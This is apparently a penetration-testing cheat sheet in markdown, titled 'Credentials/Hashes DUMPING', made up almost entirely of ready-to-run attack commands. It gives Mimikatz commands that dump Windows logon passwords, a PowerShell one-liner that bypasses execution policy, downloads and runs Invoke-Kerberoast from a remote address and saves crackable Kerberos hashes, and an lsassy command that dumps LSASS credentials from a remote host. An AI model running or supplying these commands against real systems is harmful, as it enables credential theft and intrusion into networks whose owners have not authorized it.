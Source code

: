 # Credentials/Hashes DUMPING 


## Mimikatz.exe
```
mimikatz # privilege::debug

mimikatz # sekurlsa::logonpasswords
```

## Kerberoast
```
powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.151:80/Invoke-Kerberoast.ps1') ; Invoke-Kerberoast -OutputFormat HashCat|Select-Object -ExpandProperty hash | out-file -Encoding ASCII kerb-Hash0.txt"
```
## lsassy
```
lsassy -m 0 -d domain.com -u username -p password ip

```
